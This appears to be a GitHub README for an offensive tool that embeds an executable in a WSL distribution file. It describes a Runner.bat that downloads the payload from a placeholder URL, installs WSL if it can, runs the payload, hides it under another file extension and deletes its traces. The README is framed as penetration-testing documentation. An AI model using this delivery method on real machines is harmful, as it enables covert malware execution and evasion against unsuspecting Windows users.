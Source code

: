 # WSL Payload Builder
## Disclaimer
This tool is intended for legitimate security research and penetration testing. Users are responsible for ensuring they have proper authorization before testing systems they do not own or have explicit permission to test.
## Overview
A shell script for creating minimal WSL (Windows Subsystem for Linux) distributions with embedded payloads. This tool automates the process of building Alpine Linux-based WSL distributions that can execute custom payloads upon launch.

The `Build_WSL_Payload.sh` script downloads the latest Alpine Linux rootfs, customizes it for WSL use, embeds a user-specified executable, and packages everything into a distributable `.wsl` file. 

The `Runner.bat` will download the WSL config file from the provided URL and launch it **(will install wsl if not present and admin rights are available)**

This is particularly useful for penetration testing, security research, and custom WSL environment creation.

## Usage

### Building Payloads (Linux/macOS/Windows(WSL))
#### Arguments

- **`-N, --name`**: Specify the default distribution name for WSL
- **`-P, --payload`**: Specify the path to the payload executable file
- **`-H, --help`**: Display the help menu

#### Examples

```bash
# Build a WSL distribution named "CalcWSL" with a custom payload
./Build_WSL_Payload.sh -N CalcWSL -P ./Calc.exe
```
### Running Payloads (Windows)

#### Basic Usage

Option 1.
**Double-Click** - Double clicking the WSL file will execute the payload but will also open a cmd prompt that must be closed manually. (Not recommended)

Option 2.
**Use the Runner.bat file**

```cmd
C:\Users\USER_NAME> .\Runner.bat
```

#### What it does

The `Runner.bat` script automatically:

1. **Downloads** the WSL payload file from a configured URL
2. **Checks** if WSL is already installed on the system
3. **Installs** WSL if not present (requires administrator privileges)
4. **Installs** the downloaded WSL distribution
5. **Cleans up** by removing the distribution and itself after execution.

#### Requirements

- **Windows 10/11** with WSL support
- **Administrator privileges** (if WSL is not already installed)
- **Internet connection** to download the payload file if using the .bat script

#### Configuration

Edit the variables at the top of `Runner.bat` to customize:

```batch
set "DOWNLOAD_URL=https://your-server.com/payload.wsl"
set "WSL_FILE=payload.log" # Still testing but can use most file extensions here. 
```
## References

This project was inspired by and builds upon the research and techniques documented in the [dmcxblue/WSL-Payloads](https://github.com/dmcxblue/WSL-Payloads) repository, which provides valuable insights into WSL file format weaponization and security research.


## License
MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

